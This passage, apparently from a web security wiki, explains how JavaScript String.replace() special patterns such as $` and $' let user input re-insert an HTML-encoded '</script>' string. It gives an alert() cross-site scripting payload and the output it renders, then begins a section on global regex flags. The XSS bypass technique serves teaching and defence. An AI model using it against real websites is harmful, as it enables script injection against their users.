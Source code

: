 The second argument to `replace()` functions determine what should be put in place of the matched part. It might come as a surprise that when this section is user-controlled input, there are some special character sequences that are not taken literally. The following sequences insert a special piece of text instead ([source](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#specifying_a_string_as_the_replacement)):

<table><thead><tr><th width="276">Pattern</th><th>Inserts</th></tr></thead><tbody><tr><td><code>$$</code></td><td>Inserts a <code>"$"</code> (escape sequence)</td></tr><tr><td><code>$&#x26;</code></td><td>Inserts the matched substring</td></tr><tr><td><code>$`</code></td><td>Inserts the portion of the string that <em><strong>precedes</strong></em> the matched substring</td></tr><tr><td><code>$'</code></td><td>Inserts the portion of the string that <em><strong>follows</strong></em> the matched substring</td></tr><tr><td><code>$n</code> (RegExp only)</td><td>Inserts the <code>n</code>th (<code>1</code>-indexed) capturing group where <code>n</code> is a positive integer less than 100</td></tr><tr><td><code>$&#x3C;name></code> (RegExp only)</td><td>Inserts the named capturing group where <code>name</code> is the group name</td></tr></tbody></table>

The `` $` `` and `$'` are especially interesting, as they repeat a preceding or following piece of text, which may contain **otherwise blocked characters**. A neat trick using mentioned [here](https://security.stackexchange.com/a/198461/267531) abuses this to repeat a `</script>` string that would normally be HTML encoded in the payload:

{% code title="Intended functionality" %}
```javascript
payload = "alert()//"  // Naive attempt, will be quoted
payload = "</script><script>alert()//"  // Try to escape tag, will be encoded

encoded = JSON.stringify(payload.replaceAll('<', '&lt;').replaceAll('>', '&gt;'))
'<script>let a = REPLACE_ME</script>'.replace("REPLACE_ME", encoded)
```
{% endcode %}

```html
<script>let a = "alert()//"</script>
<script>let a = "&lt;/script&gt;&lt;script&gt;alert()//"</script>
```

{% code title="Exploit" %}
```javascript
payload = "$'$`alert()//"  // Insert '</script>' following, and '<script>' preceding
```
{% endcode %}

```html
<script>let a = "</script><script>let a = alert()//"</script>
```

### Global Regexes

[regular-expressions-regex.md](../regular-expressions-regex.md "mention") in JavaScript can be written in between `/` slash characters. After the last slash, flags can be given such as `i` for case insensitivity and `g` for [global search](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/global). This global feature is interesting because it can cause some unintuitive behavior if you don't fully understand its purpose.&#x20;

One common mistake is the _lack_ of the global flag in a RegEx that is supposed to replace all characters. When using no regex, only the first match is replaced, the same goes for a non-global regex. Only using a global regex or the `replaceAll` function, all matches will be replaced:
